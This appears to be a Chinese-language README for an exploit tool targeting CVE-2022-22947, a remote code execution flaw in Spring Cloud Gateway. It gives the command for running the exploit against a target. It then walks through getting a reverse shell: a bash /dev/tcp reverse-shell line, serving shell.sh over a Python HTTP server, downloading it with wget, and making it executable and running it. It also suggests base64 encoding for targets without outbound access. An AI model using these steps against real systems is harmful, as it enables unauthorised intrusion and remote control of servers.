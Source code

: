 # 工具介绍

嘛。天天在外面跑项目，终于抽点时间研究一下这个漏洞的poc了。

就随便写了一个。辣鸡。大佬看着辣眼睛请绕过。

写这个exp的时候碰到了很多的问题把。

1. 网上的有个poc的那个是这样写。多了一个new String[]。然后发现不能执行带有空格的命令，想了好些办法，比如空格绕过$IFS呀啥的都不行。然后看到另一个poc可以。想不通在哪找了好多地方的问题。还以为是我写错了。最后仔细对比才发现。使用的地方差了一点点。

![image-20220304141150921](images/image-20220304141150921.png)

2. 这个rui的http里面的东西虽然可以瞎写好些。但是如果没写http://就不行。一开始我写漏了。就写了一个127.0.0.1结果失败了。

![image-20220304141517722](images/image-20220304141517722.png)

# 工具的使用

使用:

```
python CVE-2022-22947.py 目标 
```

![image-20220707112501119](images/image-20220707112501119.png)

反弹直接执行反弹shell的命令好像是没成功，如果不行而且出网其实还有很多方法可以用，比如下面这个方法。

我是先新建了一个shell.sh，然后在文件中写入反弹shell的命令。

```
bash -i >& /dev/tcp/ip/prot 0>&1
```

然后在shell.sh的目录下，用python开启一个http服务。

```
python3 -m http.server 8080
```

再然后用wget下载一个shell.sh。

```
wget http://xxxxx:8080/shell.sh
```

再再然后给一个文件的执行权限。

```
chmod +x shell.sh
```

最后执行shell.sh文件。

```
bash shell.sh
```

这样就把shell反弹出去了，当然了，这是目标要出网的，不出网的情况你当然可以使用使用echo命令把base64编码的命令写入到文件里，然后再base64 -d进行解码后在执行。